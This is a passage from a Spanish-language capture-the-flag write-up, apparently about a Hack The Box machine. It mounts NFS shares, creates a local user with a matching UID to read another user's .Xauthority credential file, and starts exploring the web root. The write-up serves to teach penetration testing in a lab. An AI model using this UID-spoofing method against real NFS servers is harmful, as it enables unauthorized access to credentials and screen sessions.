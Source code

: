 ![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/d4a5d8f0-68a7-4d71-b378-f4bddda5841c)

"**Sistema de autenticación**", "**ver lo que hay en tu pantalla**" parece interesante así que lo intentamos guardar en nuestra máquina por si lo necesitamos más tarde.
Pero al intentar copiar el archivo a mi máquina obtengo un permiso denegado:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/ross]
└──╼ $ cp .Xauthority ../
cp: no se puede abrir '.Xauthority' para lectura: Permiso denegado
```

Si miramos los permisos del fichero veremos que solo pueden acceder usuarios con un `UID` de `1001`:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/ross]
└──╼ $ ls -lah .Xauthority 
-rw------- 1 1001 scanner 57 jul  9 11:01 .Xauthority
```

Como estamos en el contexto de nuestra máquina, podemos crear un usuario con este UID y sería válido en la montura:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/ross]
└──╼ $ sudo useradd -s /bin/bash -M -u 1001 pepe
```

Ahora podemos copiar el archivo `.Xauthority` como el usuario **pepe** ya que tenemos el UID requerido:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/ross]
└──╼ $ sudo -u pepe /bin/bash -c "cp /home/z3r0byte/Descargas/ross/.Xauthority /tmp"
```

Y ya lo tendríamos en nuestra máquina.
En cuanto al fichero `Passwords.kdbx`, es un rabbit hole ya que no lo podemos crackear con `john` ni con otras herramientas, por lo tanto no podemos ver lo que hay dentro y no nos sirve.
Miremos ahora el directorio `/var/www/html`:

### Exploring /var/www/html dir

Montamos el directorio como lo hicimos con el anterior:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ mkdir webserver; sudo mount 10.10.11.191:/var/www/html ./webserver
```

Y accedemos para ver lo que hay dentro:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cd webserver/
bash: cd: webserver/: Permiso denegado
```

Pero nos da permiso denegado otra vez, veamos los permisos del directorio:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ ls -lah | grep webserver
drwxr-xr--  5     2017 www-data 4,0K jul  9 12:25 webserver
```
